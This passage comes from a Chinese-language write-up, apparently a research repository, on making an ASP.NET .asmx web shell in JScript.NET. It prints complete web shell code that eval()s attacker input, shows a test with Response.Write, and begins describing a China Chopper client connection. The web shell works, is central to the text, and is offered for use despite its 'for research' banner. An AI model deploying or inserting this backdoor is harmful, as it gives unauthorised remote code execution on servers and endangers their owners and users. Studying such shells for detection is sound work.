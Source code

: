 根据C\#中的代码可知需要配置WebMethod和ScriptMethod才能正常玩转，而在Jscript.Net中实现这两个功能的分类是WebMethodAttribute类和ScriptMethodAttribute类，最终写出一句话木马服务端代码：

| \<%\@ WebService Language="JScript" class="ScriptMethodSpy"%\> import System; import System.Web; import System.IO; import System.Web.Services import System.Web.Script.Services public class ScriptMethodSpy extends WebService { WebMethodAttribute ScriptMethodAttribute function Invoke(Ivan : String) : Void { var I = HttpContext.Current; var Request = I.Request; var Response = I.Response; var Server = I.Server; Response.Write("\<H1\>Just for Research Learning, Do Not Abuse It! Written By \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>"); eval(Ivan); } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


打开浏览器输入 Response.Write(DateTime.Now) 成功打印出当前时间

![](media/64050da732c72db528ac238b179e3105.png)

![](media/addc9054ea5acb64054e8510797a5430.png)

可惜的是这种方法不支持.NET 2.0究其原因是using
System.Web.Script.Services;这个命名空间并不在System.Web中，而是在ajax扩展中需要额外安装ASP.NET
2.0 AJAX Extensions，所以在2.0的环境下尽量避免使用该方法。

0X04 菜刀连接 
==============

菜刀不支持SOAP的方式提交payload，直接连接asmx文件就会出现下图错误

![](media/71dfd8955cc9c419aff470b833cb8f00.png)

